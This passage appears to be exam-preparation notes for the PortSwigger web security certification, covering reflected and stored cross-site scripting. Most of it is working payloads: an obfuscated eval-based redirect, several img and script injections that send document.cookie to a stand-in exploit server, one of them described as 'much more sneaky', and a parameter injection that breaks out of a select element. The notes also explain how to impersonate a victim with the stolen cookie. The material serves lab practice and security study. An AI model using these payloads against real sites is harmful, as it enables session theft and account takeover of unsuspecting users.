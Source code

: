 ```html
<script>
location = "https://TARGET.net/?SearchTerm=%22%2d%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%59%47%68%30%64%48%42%7a%4f%69%38%76%4e%48%6f%30%59%57%64%6c%4d%48%6c%77%59%6a%56%33%62%32%49%35%63%44%59%78%65%58%42%77%64%54%45%7a%64%6e%55%78%62%48%42%69%5a%44%41%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%70%7a%62%32%35%6a%50%57%41%67%4b%79%42%33%61%57%35%6b%62%33%64%62%49%6d%52%76%59%33%56%74%5a%57%35%30%49%6c%31%62%49%6d%4e%76%62%32%74%70%5a%53%4a%64%4b%51%3d%3d%22%29%29%2d%22"
</script>
```  

![(Deliver reflected xss to steal victim cookie.](images/xss1.png)  

>**NOTE:** `Deliver exploit to victim` few times if the active user do not send HTTP request to collaborator. Replace the current cookie value with the stolen cookie to impersonate the active user and move on to [Stage 2 of the Practice Exam](#blind-time-delay).  

[PortSwigger Practice Exam - Stage 1 - Foothold](https://portswigger.net/web-security/certification/takepracticeexam/index.html)  
  
### Stored XSS

>Use the following sample code to ***identify*** stored XSS. If stored input is redirecting victim that click on the links, it send request to exploit server.  

```HTML
<img src="https://EXPLOIT.net/img">
<script src="https://EXPLOIT.net/script"></script>
<video src="https://EXPLOIT.net/video"></video>
```  
  
>Below log entries show the requests made to the exploit server, and from the logs we can ***identify*** that `/img` and `/video` of the above tags were allowed on the application and made requests when accessed.  

![Identify-stored-xss](images/identify-stored-xss.png)  

>Cross site Scripting saved in Blog post comment. This Cookie Stealer payload then send the victim session cookie to the exploit server logs, redirecting to that URL. **Not very sneaky, the victim notices**.

```html
<img src="1" onerror="window.location='https://exploit.net/cookie='+document.cookie">
```
>Instead, this other payload does the same, but the request is automatically done with **no redirection**, so it is much more sneaky

```JavaScript
<script>
document.write('<img src="https://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```

>Product and Store lookup  

```html
?productId=1&storeId="></select><img src=x onerror=this.src='https://exploit.net/?'+document.cookie;>
```  
